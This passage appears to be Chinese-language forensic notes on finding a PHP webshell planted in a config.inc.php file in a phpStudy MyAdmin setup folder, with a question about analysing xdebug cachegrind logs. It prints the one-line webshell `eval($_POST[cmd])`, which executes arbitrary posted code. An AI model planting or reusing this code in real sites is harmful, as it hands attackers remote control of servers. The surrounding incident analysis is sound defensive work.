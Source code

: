     <?php
    eval($_POST[cmd]);
    ?>  
    
a href=./config.inc.php，看修改日期后确认是大马。

原先存在相似的文件名称，为：```D:\phpStudy\WWW\MyAdmin\setup\frames\config.inc.php```
<br>
<br>
<br>
* xdebug输出的 cachegrind 文件不知如何分析？不胜赐教！文件内容大同小异，如下： *
<div align="center"><img src="image/2017-game-cache1.jpg" width="300"/></div>
能看到利用php的操作: